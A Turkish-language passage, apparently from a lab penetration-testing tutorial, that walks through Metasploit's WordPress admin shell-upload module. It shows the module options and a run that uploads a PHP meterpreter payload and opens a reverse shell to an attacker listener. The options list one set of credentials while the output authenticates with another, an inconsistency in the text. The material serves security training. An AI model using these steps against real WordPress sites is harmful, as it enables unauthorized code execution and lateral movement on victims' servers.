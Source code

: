 Daha sonra her şeyin doğru şekilde ayarlandığından emin olmak için show options komutunu verebiliriz. Bu laboratuvar örneğinde, hem vhost hem de IP adresini belirtmeliyiz, aksi takdirde Exploit aborted due to failure: not-found hatası ile başarısız olacaktır: Hedef WordPress kullanıyor gibi görünmüyor.

```shell-session
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

Kurulumdan memnun kaldığımızda, exploit yazabilir ve bir reverse shell elde edebiliriz. Buradan, hassas veriler için hostu veya dikey/yatay ayrıcalık yükseltme ve yanal hareket için yolları numaralandırmaya başlayabiliriz.

```shell-session
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```
